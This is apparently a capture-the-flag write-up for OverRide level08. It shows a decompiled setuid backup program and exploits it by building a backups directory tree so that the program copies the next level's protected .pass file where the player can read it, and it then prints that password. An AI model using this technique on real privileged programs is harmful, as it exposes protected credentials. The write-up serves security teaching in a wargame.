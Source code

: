 # level8

## Code
```c
  v4 = fopen("./backups/.log", "w");

  stream = fopen(argv[1], "r");

  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, O_WRONLY | O_CREAT, 0660);
```
There are 3 files they open in the binary.

1. it opens `./backups/.log` with `write`.
2. it opens `argv[1]` -> `stream` with `read`.
3. it opens a file name, `./backups/<argv[1]>`.

### `./backups`
To make first `open` works, we should create `backups` directory in where we run the command. 
```bash
# bad example
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open ./backups/.log
# good example
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open hi # it's another problem. :)
```

### `argv[1]`
To make second `open` works, we should create a file has same name of `argv[1]`.
```bash 
# bad example
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open hi
# good example
level08@OverRide:/tmp$ echo "hello I'm hi" > hi
level08@OverRide:/tmp$ ~/level08 hi
level08@OverRide:/tmp$ cat backups/hi
hello I'm hi
```
They open the file we put as `argv[1]` and read it the contents and write them in `./backups/<argv[1]>`. 
So we will try to read `.pass` file directly.

## Payload

First, we should make all directory we need.
```bash
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ls -Rl
.:
total 0
drwxrwxr-x 3 level08 level08 80 Jul  7 20:47 backups

./backups:
total 0
drwxrwxr-x 3 level08 level08 60 Jul  7 20:47 home

./backups/home:
total 0
drwxrwxr-x 3 level08 level08 60 Jul  7 20:47 users

./backups/home/users:
total 0
drwxrwxr-x 2 level08 level08 40 Jul  7 20:47 level09

./backups/home/users/level09:
total 0
```

Then, just run the command!
```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

Now it must be there!
```bash
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```